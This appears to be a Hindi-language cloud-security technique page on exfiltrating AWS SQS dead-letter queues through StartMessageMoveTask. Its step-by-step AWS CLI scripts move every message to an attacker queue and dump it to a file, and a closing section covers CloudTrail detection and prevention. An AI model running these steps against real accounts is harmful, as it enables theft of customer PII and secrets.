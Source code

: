 # AWS – SQS DLQ Redrive Exfiltration via StartMessageMoveTask

## विवरण

SQS message move tasks का दुरुपयोग करके पीड़ित के Dead-Letter Queue (DLQ) में जमा किए गए सभी संदेशों को `sqs:StartMessageMoveTask` का उपयोग करके हमलावर-नियंत्रित queue पर रीडायरेक्ट करके चुराना। यह तकनीक AWS के वैध message recovery फीचर का फायदा उठाकर DLQs में समय के साथ जमा संवेदनशील डेटा को exfiltrate करती है।

## Dead-Letter Queue (DLQ) क्या है?

Dead-Letter Queue एक विशेष SQS queue है जहाँ संदेश स्वचालित रूप से भेजे जाते हैं जब उन्हें मुख्य application द्वारा सफलतापूर्वक प्रोसेस नहीं किया जा सकता। ये विफल संदेश अक्सर निम्नलिखित रखते हैं:
- संवेदनशील application डेटा जिसे प्रोसेस नहीं किया जा सका
- त्रुटि विवरण और डिबग जानकारी
- व्यक्तिगत पहचान योग्य जानकारी (PII)
- API tokens, credentials, या अन्य secrets
- व्यापार-सम्बंधी महत्वपूर्ण transaction डेटा

DLQs उन विफल संदेशों का "कब्रिस्तान" जैसा काम करते हैं, इसलिए ये कीमती लक्ष्य होते हैं क्योंकि इनमें समय के साथ ऐसा संवेदनशील डेटा जमा हो जाता है जिसे applications सही तरीके से हैंडल नहीं कर पाए।

## हमला परिदृश्य

**वास्तविक उदाहरण:**
1. **E-commerce application** SQS के माध्यम से ग्राहक आदेश प्रोसेस करती है  
2. **कुछ आदेश विफल होते हैं** (payment issues, inventory problems, आदि) और DLQ में चले जाते हैं  
3. **DLQ में जमा होता है** हफ्तों/महीनों का विफल ऑर्डर डेटा जिसमें ग्राहक जानकारी होती है: `{"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}`  
4. **Attacker AWS credentials** हासिल कर लेता है जिनमें SQS permissions होते हैं  
5. **Attacker पता लगाता है** कि DLQ में हजारों विफल ऑर्डर्स हैं जिनमें संवेदनशील डेटा है  
6. **व्यक्ति व्यक्तिगत संदेशों तक पहुँचने की बजाय** (धीमा और स्पष्ट), attacker `StartMessageMoveTask` का उपयोग करके सभी संदेशों को एक साथ अपनी queue में bulk transfer कर देता है  
7. **Attacker एक ही ऑपरेशन में** सभी ऐतिहासिक संवेदनशील डेटा निकाल लेता है

## आवश्यकताएँ
- स्रोत queue को किसी न किसी queue के RedrivePolicy द्वारा DLQ के रूप में कॉन्फ़िगर किया गया होना चाहिए।
- IAM permissions (समझौता किए गए victim principal के रूप में चलाते हुए):
- DLQ (source) पर: `sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`.
- destination queue पर: संदेश डिलीवर करने की अनुमति (उदा., queue policy जो victim principal से `sqs:SendMessage` की अनुमति देती हो)। same-account destinations के लिए यह सामान्यतः डिफ़ॉल्ट रूप से allowed होता है।
- यदि SSE-KMS सक्षम है: source CMK पर `kms:Decrypt`, और destination CMK पर `kms:GenerateDataKey`, `kms:Encrypt`.

## प्रभाव
DLQs में जमा संवेदनशील payloads (विफल events, PII, tokens, application payloads) को native SQS APIs का उपयोग करके उच्च गति पर exfiltrate किया जा सकता है। यदि destination queue policy victim principal से `SendMessage` की अनुमति देती है तो यह cross-account भी काम करता है।

## दुरुपयोग कैसे करें

- पीड़ित DLQ ARN की पहचान करें और सुनिश्चित करें कि इसे वास्तव में किसी queue द्वारा DLQ के रूप में संदर्भित किया गया है (कोई भी queue चलेगा)।
- एक attacker-नियंत्रित destination queue बनाएं या चुनें और उसका ARN प्राप्त करें।
- पीड़ित DLQ से आपकी destination queue पर message move task शुरू करें।
- प्रगति की निगरानी करें या आवश्यक होने पर task को रद्द करें।

### CLI उदाहरण: E-commerce DLQ से Customer Data का Exfiltration

**परिदृश्य**: एक attacker ने AWS credentials compromise कर ली हैं और पता लगा लिया है कि एक e-commerce application SQS का उपयोग कर रही है और उसकी DLQ में ग्राहक ऑर्डर प्रोसेसिंग के विफल प्रयास जमा हैं।

1) **Discover and examine the victim DLQ**
```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
--attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847"
```
2) **बनाएँ attacker-controlled destination queue**
```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```
3) **बड़े पैमाने पर संदेश चोरी को निष्पादित करें**
```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
--source-arn "$SRC_ARN" \
--destination-arn "$ATTACKER_Q_ARN" \
--max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```
4) **चोरी किए गए संवेदनशील डेटा को एकत्र करें**
```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--attribute-names All --message-attribute-names All \
--max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--max-number-of-messages 10 --wait-time-seconds 2 --output json)

if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
echo "No more messages - exfiltration complete!"
break
fi

echo "Received batch of stolen data..."
# Process/save the stolen customer data
echo "$MESSAGES" >> stolen_customer_data.json
done
```
### क्रॉस-एकाउंट नोट्स
- The destination queue must have a resource policy allowing the victim principal to `sqs:SendMessage` (and, if used, KMS grants/permissions).

## यह Attack क्यों प्रभावी है

1. **Legitimate AWS Feature**: बिल्ट-इन AWS कार्यक्षमता का उपयोग करता है, जो इसे दुर्भावनापूर्ण के रूप में पहचानना कठिन बनाती है
2. **Bulk Operation**: धीमे व्यक्तिगत एक्सेस के बजाय हजारों messages जल्दी ट्रांसफर करता है
3. **Historical Data**: DLQs सप्ताहों/महीनों में संवेदनशील डेटा जमा कर लेते हैं
4. **Under the Radar**: कई संगठन DLQ access की निगरानी बारीकी से नहीं करते हैं
5. **Cross-Account Capable**: यदि permissions अनुमति दें तो attacker अपने ही AWS account में exfiltrate कर सकता है

## Detection and Prevention

### Detection
संदिग्ध `StartMessageMoveTask` API कॉल्स के लिए CloudTrail की निगरानी करें:
```json
{
"eventName": "StartMessageMoveTask",
"sourceIPAddress": "suspicious-ip",
"userIdentity": {
"type": "IAMUser",
"userName": "compromised-user"
},
"requestParameters": {
"sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
"destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
}
}
```
### रोकथाम
1. **न्यूनतम विशेषाधिकार**: `sqs:StartMessageMoveTask` अनुमतियों को केवल आवश्यक भूमिकाओं तक सीमित करें  
2. **DLQs की निगरानी**: असामान्य DLQ गतिविधि के लिए CloudWatch अलार्म सेट करें  
3. **क्रॉस-एकाउंट नीतियाँ**: cross-account access की अनुमति देने वाली SQS queue नीतियों की सावधानीपूर्वक समीक्षा करें  
4. **DLQs को एन्क्रिप्ट करें**: सीमित key नीतियों के साथ SSE-KMS का उपयोग करें  
5. **नियमित क्लीनअप**: संवेदनशील डेटा को DLQs में अनिश्चितकाल तक जमा न होने दें
